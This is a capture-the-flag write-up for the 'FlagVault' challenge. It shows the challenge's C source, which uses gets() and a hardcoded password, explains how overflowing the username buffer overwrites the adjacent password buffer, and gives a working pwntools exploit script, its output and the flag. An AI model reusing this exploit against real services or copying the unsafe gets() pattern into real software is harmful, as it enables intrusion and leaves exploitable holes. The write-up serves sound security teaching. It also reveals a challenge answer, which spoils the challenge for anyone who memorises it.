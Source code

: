 ```yaml
---
sticker: emoji//1f6a9
---
```


# CONTEXT
---


Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.

**Note:** To start the target machine, click the Start Machine button:

You can use the following command to connect to the machine:

`nc 10.10.61.110 1337`

Download the source code from [here](https://drive.google.com/file/d/1kYIR2JEfLfbzifHgpGBj2xuBgGxNLp46/view?usp=sharing).

This challenge was originally a part of the Hackfinity Battle 2025 CTF Event.


Let's begin.


# EXPLOITATION
---

So, we know there's a binary running on port `1337`, let's use netcat to interact with it:

```
nc 10.10.61.110 1337
  ______ _          __      __         _ _
 |  ____| |         \ \    / /        | | |
 | |__  | | __ _  __ \ \  / /_ _ _   _| | |_
 |  __| | |/ _` |/ _` \ \/ / _` | | | | | __|
 | |    | | (_| | (_| |\  / (_| | |_| | | |_
 |_|    |_|\__,_|\__, | \/ \__,_|\__,_|_|\__|
                  __/ |
                 |___/

Version 1.0 - Passwordless authentication evolved!
==================================================================

Username: test
Wrong password! No flag for you.
```

As seen, it seems to be asking for a password, luckily for us, we got the source code of the file:

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
	printf( "  ______ _          __      __         _ _   \n"
 		" |  ____| |         \\ \\    / /        | | |  \n"
		" | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
		" |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
		" | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
		" |_|    |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
		"                  __/ |                      \n"
		"                 |___/                       \n"
		"                                             \n"
		"Version 1.0 - Passwordless authentication evolved!\n"
		"==================================================================\n\n"
	      );
}

void print_flag(){
	FILE *f = fopen("flag.txt","r");
	char flag[200];

	fgets(flag, 199, f);
	printf("%s", flag);
}

void login(){
	char password[100] = "";
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// If I disable the password, nobody will get in.
	//printf("Password: ");
	//gets(password);

	if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
		print_flag();
	}
	else{
		printf("Wrong password! No flag for you.");
	}
}

void main(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	// Start login process
	print_banner();
	login();

	return;
}
```

This binary is vulnerable to `Buffer Overflow`:

1. **Buffer Overflow in `username`**:
    - The `gets(username)` function reads input without bounds checking, allowing overflow into adjacent memory.
    - The `password` buffer (initialized as empty) is adjacent to `username` on the stack. Overflowing `username` can overwrite `password`.
        
2. **Stack Layout**:
    - `password[100]` is allocated first (lower memory address).
    - `username[100]` is allocated next (higher memory address).
    - Writing beyond 100 bytes in `username` overflows into `password`.
        
3. **Login Bypass**:
    - The login check requires:
        - `username == "bytereaper"`
        - `password == "5up3rP4zz123Byte"`.
    - By crafting a payload that sets `username` to `"bytereaper"` (with proper null termination) and overflows into `password` with the correct value, we can satisfy both conditions.


Knowing all that, we can use this python script:

```python
#!/usr/bin/env python3
from pwn import *
import re

def main():
    # Remote host and port (updated for this target)
    host = "10.10.61.110"
    port = 1337

    # Enable pwntools logging so we see:
    # [+] Opening connection to 10.10.61.110 on port 1337: Done
    # [+] Receiving all data: Done (XXB)
    # [*] Closed connection to 10.10.61.110 port 1337
    context.log_level = "info"

    # 1) Connect to the remote service
    conn = remote(host, port)

    # 2) Build the payload
    #    - "bytereaper\x00" makes strcmp(username, "bytereaper") succeed
    #    - 101 "A" bytes overflow into the password buffer
    #    - "5up3rP4zz123Byte" is the hardcoded password the program expects
    payload = (
        b"bytereaper\x00"       # username + null terminator
        + b"A" * 101            # overflow filler up to password check
        + b"5up3rP4zz123Byte"   # correct password string
    )

    # 3) Wait until the remote binary prompts "Username:"
    conn.recvuntil(b"Username:")

    # 4) Send the payload (pwntools will automatically append "\n")
    conn.sendline(payload)

    # 5) Read everything the server sends back (banner + flag or error)
    #    We give a small timeout to avoid hanging indefinitely
    response = conn.recvall(timeout=2).decode(errors="ignore")

    # 6) Close the connection
    conn.close()

    # 7) Extract the flag from the response.
    #    The flag is expected to match THM{…}, so we search with a regex.
    match = re.search(r"THM\{.*?\}", response)
    if match:
        # Print only the flag, prefixed so it's clear in the output
        print(f"Flag: {match.group(0)}")
    else:
        # If no flag was found, print the full response for debugging
        print("No flag found. Full response:\n")
        print(response)

if __name__ == "__main__":
    main()
```

Once we run the script, we get:

```python
python3 exploit.py
[+] Opening connection to 10.10.61.110 on port 1337: Done
[+] Receiving all data: Done (24B)
[*] Closed connection to 10.10.61.110 port 1337
Flag: THM{password_0v3rfl0w}
```

Got our flag:

```python
THM{password_0v3rfl0w}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250605184529.png)


